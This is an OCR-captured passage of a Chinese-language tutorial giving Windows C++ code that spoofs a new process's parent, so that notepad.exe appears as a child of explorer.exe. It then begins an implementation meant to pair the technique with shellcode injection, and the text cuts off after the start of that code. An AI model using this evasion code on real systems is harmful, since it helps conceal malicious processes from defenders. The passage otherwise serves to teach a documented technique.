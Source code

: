 ```c++
    InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
    pAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
    InitializeProcThreadAttributeList(pAttributeList, 1, 0, &cbAttributeListSize);

    // 打开指定PID的进程句柄
    hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
    // 更新进程线程属性，伪造父进程
    UpdateProcThreadAttribute(pAttributeList,
                                0,
                                PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
                                &hParentProcess,
                                sizeof(HANDLE),
                                NULL,
                                NULL);

    info.lpAttributeList = pAttributeList;

    // 创建新的进程，使其具有不同的父进程
    CreateProcessA(NULL,
                    (LPSTR) "notepad.exe",
                    NULL,
                    NULL,
                    FALSE,
                    EXTENDED_STARTUPINFO_PRESENT,
                    NULL,
                    NULL,
                    &info.StartupInfo,
                    &processInfo);

    // 等待一段时间以查看父子关系
    Sleep(30000);

    // 清理资源
    DeleteProcThreadAttributeList(pAttributeList);
    CloseHandle(hParentProcess);

    return 0;
}

```

通过以上代码进行实验可以看到，notepad.exe的父进程变成了explorer.exe

在实战中可以配合进程注入进行利用，创建一个进程修改其父进程并将shellcode注入到此进程中。但是通常进程注入很容易会被检测到，所以这里先提供一份基本的实现代码。

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <psapi.h>

// 获取目标进程pid
DWORD GetPidByName(const char * pName) {
    PROCESSENTRY32 pEntry;
    HANDLE snapshot;

    pEntry.dwSize = sizeof(PROCESSENTRY32);
    snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (Process32First(snapshot, &pEntry) == TRUE) {
        while (Process32Next(snapshot, &pEntry) == TRUE) {
```